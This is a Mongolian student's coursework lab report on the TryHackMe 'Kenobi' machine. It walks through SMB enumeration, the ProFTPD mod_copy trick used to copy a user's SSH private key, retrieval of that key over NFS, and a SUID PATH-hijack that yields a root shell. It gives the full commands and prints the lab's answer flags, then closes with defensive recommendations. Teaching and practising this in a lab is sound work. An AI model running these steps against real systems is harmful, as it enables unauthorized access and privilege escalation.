<style>
@page {
  size: A4;
  margin: 25mm;
}

html, body {
  
  color: #ffffff;
  font-family: "Times New Roman", serif;
  font-size: 12pt;
  line-height: 1.5;
}

body {
  max-width: 160mm;
  margin: 0 auto;
  padding: 0;
}

.cover {
  min-height: 247mm;
  display: flex;
  flex-direction: column;
  text-align: center;
  page-break-after: always;
  break-after: page;
}

.logo {
  text-align: center;
  margin-top: 12mm;
}

/* Зөвхөн логонд үйлчлэх хэсэг */
.logo img {
  width: 200px;
  height: auto;
  object-fit: contain;
}

/* Тайлан болон бусад хэсэгт орж буй зургийг голлох болон хэмжээг тохируулах */
img:not(.logo img) {
  display: block;
  margin: 15px auto;
  max-width: 100%;
  height: auto;
}

.school {
  font-size: 15pt;
  font-weight: bold;
  margin-top: 4mm;
}

.department {
  font-size: 14pt;
  font-weight: bold;
  margin-top: 2mm;
}

.report-title {
  font-size: 24pt;
  font-weight: bold;
  line-height: 1.35;
  margin-top: 18mm;
}

.course {
  font-size: 15pt;
  margin-top: 8mm;
}

.details {
  text-align: left;
  margin: 25mm 8mm 0 8mm;
  line-height: 2;
}

.city {
  margin-top: auto;
  padding-bottom: 2mm;
  line-height: 1.8;
}

h1, h2, h3 {
  color: #000000;
}

h1 {
  font-size: 16pt;
}

p {
  text-align: justify;
}
</style>

<div class="cover">

<div class="school">
  ШИНЖЛЭХ УХААН ТЕХНОЛОГИЙН ИХ СУРГУУЛЬ
</div>

<div class="department">
  Мэдээлэл холбооны технологийн сургууль
</div>
<div class="logo">
  
</div>

<div class="report-title">
  БИЕ ДААЛТЫН АЖЛЫН<br>
  ТАЙЛАН
</div>

<div class="course">
  Веб системийн аюулгүй байдал /F.NSA342/<br>
  (2026-2027 оны хичээлийн жилийн Намар)
</div>

<div class="details">

**Машины нэр:**  Kenobi (EASY)   
**Хичээл заасан багш:** Ц.Энхтөр /FSN07/

**Лабораторийн цаг:** 2/2

**Бие даалтын ажил гүйцэтгэсэн оюутан:** Г.Ганбаяр B231870023

</div>

<div class="city">
  Улаанбаатар хот<br>
  2026 он
</div>

</div>


# TRYHACKME – KENOBI

## УДИРТГАЛ

Энэхүү даалгаврын хүрээнд TryHackMe платформын **Kenobi** виртуал машины аюулгүй байдлын түвшинг шалгав. SMB share-ийг шалгаж, ProFTPD-ийн `mod_copy` боломжоор файл хуулж, NFS export ашиглан SSH private key авч `kenobi` хэрэглэгчээр нэвтэрсэн. Эцэст нь SUID `menu` програмын PATH manipulation-ээр root эрх авсан.

## НЭЭЛТТЭЙ ПОРТ, ҮЙЛЧИЛГЭЭНИЙ ХУВИЛБАР ТОДОРХОЙЛОХ

```bash
nmap -sC -sV 10.48.186.114
```

**Яагаад:** Зорилтот машин дээр хандалттай үйлчилгээ болон боломжит халдлагын гадаргууг олох. `-sC` нь Nmap default NSE scripts, `-sV` нь service version detection. Өмнөх болон шинэ Nmap нотолгоогоор **7 нээлттэй TCP порт** бүрэн батлагдсан: `21/ftp` (ProFTPD 1.3.5), `22/ssh` (OpenSSH 8.2p1), `80/http` (Apache 2.4.41), `111/rpcbind`, `139/netbios-ssn` (Samba smbd 4), `445/netbios-ssn` (Samba smbd 4), `2049/nfs`. Мөн SMB message signing идэвхтэй боловч заавал шаардаагүй (`enabled but not required`) байдал харагдсан. Энэхүү шинэ дэлгэрэнгүй scan нь `10.48.167.245` дээрх тусдаа сессийн үр дүн юм.







**Нэмэлт дүгнэлт:** `2049/nfs` нь хожим NFS export ашиглан SSH private key рүү хандах боломжийг судлах үндэслэл болсон. `139/445` портууд Samba enumeration хийхэд чиглүүлсэн. `smb2-security-mode` мэдээлэл нь SMB signing шаардахгүй тохиргоо байгааг харуулж, сүлжээний хамгаалалтын үнэлгээнд анхаарах асуудал болсон.

## SMB ҮЙЛЧИЛГЭЭГ ШАЛГАЖ, SHARE-ҮҮДИЙГ ТООЛОХ

Өмнөх сесс дээр `anonymous` share-ийг шалгахад `log.txt` харагдсан. Шинэ сесс дээр дараах командуудыг ажиллуулсан:

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.48.167.245
smbclient -L //10.48.167.245/ -N
```

**Яагаад:** `445/tcp` SMB порт нээлттэй эсэх, нэргүй хандалтаар боломжтой share-үүдийг тодорхойлох. `-p 445` тодорхой TCP порт скан хийнэ; `--script` NSE скриптүүдийг сонгоно; `smbclient -L` share жагсаана; `-N` нууц үг асуухгүй. **Үр дүн:** `print$`, `anonymous`, `IPC$` гэсэн 3 share гарсан. SMB1 workgroup listing дээр protocol negotiation алдаа гарсан ч share жагсаалтыг амжилттай авсан. Nmap-ийн энэ зурагт зөвхөн `445/tcp open` харагдсан, скриптийн нарийвчилсан enumeration үр дүн харагдаагүй.







## ANONYMOUS SHARE-ЭЭС LOG ФАЙЛ ТАТАХ

```bash
smbclient //10.48.167.245/anonymous -N
# smb: \> дээр:
ls
get log.txt
exit
```

**Яагаад:** Хуваалцсан файл дотроос системийн зам, хэрэглэгч, үйлчилгээний тохиргоотой холбоотой мэдээлэл хайх. **Үр дүн:** `log.txt` (12,237 bytes) амжилттай татагдсан. Зурагт татсан файлын агуулгыг уншсан терминалын нотолгоо алга; түүний агуулгын талаар дүгнэлт зохиогоогүй.



## PROFTPD-ИЙН ФАЙЛ ХУУЛАХ БОЛОМЖИЙГ АШИГЛАХ

```text
nc 10.48.167.245 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
QUIT
```

**Яагаад:** `ProFTPD 1.3.5` серверт `mod_copy` командууд зөвшөөрөгдсөн тохиолдолд серверийн файлыг өөр зам руу хуулах боломжтой. `SITE CPFR`-ээр эх файлыг, `SITE CPTO`-оор очих замыг заасан. **Үр дүн:** Серверээс `350 File or directory exists` болон `250 Copy successful` гэсэн хариу гарсан. Энэ нь түлхүүрийн файл `/var/tmp/id_rsa` руу хуулсныг батална. Өөр нэг зурагт FTP `HELP` командаар серверийн хүлээн зөвшөөрөх командуудыг шалгасан.







## NFS SHARE-ИЙГ MOUNT ХИЙЖ SSH ТҮЛХҮҮРИЙГ АВАХ

```bash
sudo mkdir -p /mnt/kenobi
sudo mount -t nfs 10.48.167.245:/var /mnt/kenobi
ls -l /mnt/kenobi/tmp/id_rsa
cp /mnt/kenobi/tmp/id_rsa ~/id_rsa
chmod 600 ~/id_rsa
sudo umount /mnt/kenobi
```

**Яагаад:** Серверийн `/var` хавтас NFS share хэлбэрээр хандагдаж байсан тул FTP-ээр `/var/tmp` руу хуулсан файлыг локал Kali дээр авах. `mount -t nfs` нь NFS filesystem холбодог; `chmod 600` нь SSH private key-ийг зөвхөн эзэмшигч уншиж, бичдэг болгоно. **Үр дүн:** `/mnt/kenobi/tmp/id_rsa` файл харагдаж, `~/id_rsa` руу хуулсан. Зурагт анхны `sudo mkdir` командын нууц үгийг буруу оруулж дараа нь үргэлжлүүлснийг мөн харуулсан.



## SSH-ЭЭР KENOBI ХЭРЭГЛЭГЧЭЭР НЭВТРЭХ

```bash
ssh -i ~/id_rsa kenobi@10.48.167.245
```

**Яагаад:** Өмнөх алхамд олсон SSH private key ашиглан зөвшөөрөгдсөн лабораторийн хэрэглэгчийн shell нээх. `-i` нь authentication identity file-ийн зам. **Үр дүн:** Ubuntu нэвтрэх мэдээлэл гарсан бөгөөд дараагийн зурагт `kenobi@kenobi:~$` prompt харагдсан. SSH host key-г анх удаа зөвшөөрсөн байдал зурагт бий.



## USER FLAG АВАХ БОЛОН SUID ФАЙЛУУДЫГ ШАЛГАХ

```bash
whoami
cat /home/kenobi/user.txt
find / -type f -perm -4000 2>/dev/null
ls -l /usr/bin/menu
```

**Яагаад:** Нэвтэрсэн эрхийг баталгаажуулж user flag унших, цаашид local privilege escalation хийх боломжтой SUID програмуудыг илрүүлэх. `-perm -4000` SUID биттэй файлуудыг, `2>/dev/null` permission алдааг нууж харуулдаг. **Үр дүн:** `whoami` → `kenobi`; user flag зурагт `d0b0f3f53b6caa532a83915e19224899` гэж харагдана. `/usr/bin/menu`-д `-rwsr-xr-x` permission, эзэмшигч `root` байгааг дараагийн зурагт баталсан.



## SUID MENU ПРОГРАМЫН PATH MANIPULATION АШИГЛАН ROOT SHELL АВАХ

Зурагт `/usr/bin/menu` програмын `status check`, `kernel version`, `ifconfig` сонголтууд харагдсан. Програм команд хайхдаа аюулгүй absolute path ашиглахгүй байгаа сул талыг ашиглан `curl` нэртэй executable-ийг түр замд үүсгэж, PATH-ийн эхэнд оруулсан.

```bash
/usr/bin/menu
# Сул талыг баталгаажуулах зорилготой лабораторийн командууд:
echo '/bin/sh' > /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
/usr/bin/menu
# status check: сонголт 1
whoami
id
cat /root/root.txt
```

**Яагаад:** SUID root програм PATH-д найдаж `curl` командыг дуудвал `/tmp/curl` эхэлж олдож, тухайн програмын effective root эрхээр shell ажиллах боломж үүснэ. **Үр дүн:** `whoami` → `root`, `id` → `uid=0(root) gid=1000(kenobi)` гэж харагдсан; root flag зурагт `177b3cd8562289f37382721c28381f02` байна. Энэ нь лабораторийн **root shell авсан шууд нотолгоо** юм.



## KENOBI — ДҮГНЭЛТ БА ХАМГААЛАЛТЫН ЗӨВЛӨМЖ

Kenobi лабораторийн машин дээр **SMB enumeration → anonymous share-ээс файл татах → ProFTPD mod_copy файл хуулалт → NFS-ээр SSH private key авах → SSH user shell → SUID PATH hijacking → root shell** гэсэн гинжин ажиллагаа амжилттай хийгдсэн. User болон Root flag-уудыг терминалын зургаар баталгаажуулсан.

**Эмзэг байдлын үндсэн шалтгаан:** Share-үүдийн хэт нээлттэй хандалт, ProFTPD-ийн аюултай файл хуулах боломж, SSH түлхүүрийг тусгаарлаагүй байдал, мөн root SUID програмын командын хайлтыг хэрэглэгчийн PATH-аас хамааруулсан хэрэгжилт.

**Кибер халдлагыг сөрөн тэсвэрлэх зөвлөмж:** SMB signing-ийг боломжтой орчинд заавал шаардах, SMB1-ийг идэвхгүй болгох; Anonymous SMB/NFS хандалтыг зөвшөөрөгдсөн хэрэглэгч, IP хүрээгээр хязгаарлах; ProFTPD-ийн эмзэг хувилбар/модулийг шинэчлэх эсвэл идэвхгүй болгох; SSH private key-ийг бусад үйлчилгээний унших боломжтой хавтсаас тусгаарлаж сэжигтэй хандалтын дараа түлхүүрийг солиулах; SUID програмуудыг аудитлаж absolute path ашиглах, шаардлагагүй SUID битийг арилгах; NFS export permission болон FTP/SSH логт хяналт тавих.
